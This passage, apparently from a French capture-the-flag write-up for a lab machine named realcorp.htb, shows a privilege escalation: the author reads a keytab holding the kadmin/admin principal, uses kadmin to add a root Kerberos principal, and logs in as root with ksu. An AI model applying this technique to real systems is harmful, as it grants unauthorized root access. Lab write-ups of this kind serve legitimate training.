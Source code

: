 Nous pouvons lire un fichier keytab avec [klist](https://docs.bmc.com/docs/ServerAutomation/85/configuring-after-installation/administering-security/implementing-authentication/implementing-active-directory-kerberos-authentication/configuring-an-authentication-service-for-ad-kerberos-authentication/creating-the-blappserv_login-conf-file-ad-kerberos/using-klist-to-read-the-keytab-file) :

```bash
[admin@srv01 ~]$ klist -t -k /etc/krb5.keytab

Keytab name: FILE:/etc/krb5.keytab
KVNO Timestamp           Principal
---- ------------------- ------------------------------------------------------
   2 08/12/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 08/12/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 08/12/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 08/12/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 08/12/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 19/12/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 19/12/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 19/12/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 19/12/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 19/12/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 19/12/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 19/12/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 19/12/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 19/12/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 19/12/2020 06:10:53 kadmin/admin@REALCORP.HTB
```

Nous allons utiliser [kadmin](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/kadmin_local.html#kadmin-1) pour [ajouter un principal root](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/kadmin_local.html#kadmin-1) de service Kerberos dans notre fichier keytab :

```bash
[admin@srv01 ~]$ kadmin -k -t /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB

Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
kadmin:  add_principal root@REALCORP.HTB
Enter password for principal "root@REALCORP.HTB": nuts
Re-enter password for principal "root@REALCORP.HTB": nuts
```

Nous pouvons enfin nous connecter en tant que root à l'aide de [ksu](https://www.oreilly.com/library/view/linux-security-cookbook/0596003919/ch05s20.html)

![rooted](https://i.imgur.com/ejiRXDV.png)

Voila nous sommes enfin root ! 😎
